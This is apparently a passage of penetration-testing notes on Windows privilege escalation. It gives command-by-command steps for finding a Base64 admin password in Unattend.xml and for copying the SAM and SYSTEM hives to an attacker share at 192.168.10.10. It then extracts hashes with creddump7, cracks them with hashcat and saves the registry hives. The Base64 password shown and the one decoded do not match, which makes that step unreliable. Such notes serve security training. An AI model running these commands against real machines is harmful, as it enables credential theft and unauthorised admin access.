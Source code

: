 ```
1.  Use winPEAS to search for common files which may contain credentials:

    ```
    .\winPEASany.exe quiet cmd searchfast filesinfo
    ```
2.  The Unattend.xml file was found. View the contents:

    ```
    type C:\Windows\Panther\Unattend.xml
    ```
3. A password for the admin user was found. The password is Base64 encoded: cGFzc34vcmQxMjM=
4.  On your host we can easily decode this:

    ```
    echo "cGFzc3dvcmxMjM=" | base64 -d
    ```
5. Once again we can simply use winexe to spawn a shell as the admin user.

### SAM

The Security Account Manager in Windows stores password hashes (SAM). The hashes are encrypted using a key that can be obtained in the SYSTEM file. You can dump the hashes and utilize them using PassTheHash or crack them if you are able to read the SAM and SYSTEM files.

#### SAM/SYSTEM Locations

The SAM and SYSTEM files are located in the `C:\Windows\System32\config` directory. The files are locked while Windows is running.&#x20;

Backups of these files may exist in the `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack` directories.

#### SAM/SYSTEM Privilege Escalation Methodology

1.  Copy the files back to our host:

    ```
    copy C:\Windows\Repair\SAM \\192.168.10.10\tools\
    copy C:\Windows\Repair\SYSTEM \\192.168.10.10\tools\
    ```
2.  Download the latest version of the creddump suite:

    ```
    git clone https://github.com/Neohapsis/creddump7.git
    ```
3.  Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

    ```
    python2 creddump7/pwdump.py SYSTEM SAM
    ```
4.  Crack the admin user hash using hashcat:

    ```
    hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
    ```

Alternatively, save SAM, SYSTEM, and SECURITY with registry:

```
reg save hklm\sam c:\SAM
reg save hklm\system c:\SYSTEM
reg save hklm\security c:\SECURITY
```
```